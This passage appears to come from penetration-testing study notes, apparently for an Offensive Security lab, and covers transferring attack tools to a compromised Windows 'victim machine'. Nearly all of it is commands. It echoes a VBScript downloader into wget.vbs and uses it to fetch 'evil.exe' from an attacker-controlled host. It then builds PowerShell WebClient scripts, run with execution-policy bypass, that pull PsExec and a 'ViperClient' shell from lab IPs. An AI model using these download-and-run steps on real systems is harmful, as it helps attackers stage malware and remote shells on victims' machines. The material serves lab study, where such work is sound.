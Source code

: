 echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs

echo strData = "" >> wget.vbs

echo strBuffer = "" >> wget.vbs

echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs

echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs

echo Next >> wget.vbs

echo ts.Close >> wget.vbs

Now, we can serve files on our own web server, and download them to the victim

machine with ease:

C:\Users\Offsec>cscript wget.vbs http://10.11.0.5/evil.exe evil.exe

#### UPLOADING FILE USING POWERSHELL

C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1

C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1

C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1

C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1

C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

Now, we can use PowerShell to run the script and download our file:

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

#### POWERSHELL TRANSFER PSEXEC

•	You will have to uplaod PsExec

•	echo $storageDir = $pwd > psewget.ps1

•	echo $webclient = New-Object System.Net.WebClient >>psewget.ps1

•	echo $url = "http://10.11.0.69/PsExec.exe" >>psewget.ps1

•	echo $file = "PsExec.exe" >>psewget.ps1

•	echo $webclient.DownloadFile($url,$file) >>psewget.ps1

•	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File psewget.ps1

#### POWERSHELL TRANSFER VIPER-SHELL

•	echo $storageDir = $pwd > viperwget.ps1

•	echo $webclient = New-Object System.Net.WebClient >>viperwget.ps1

•	echo $url = "http://10.11.0.202/ViperClient.exe" >>viperwget.ps1

•	echo $file = "ViperClient.exe" >>viperwget.ps1
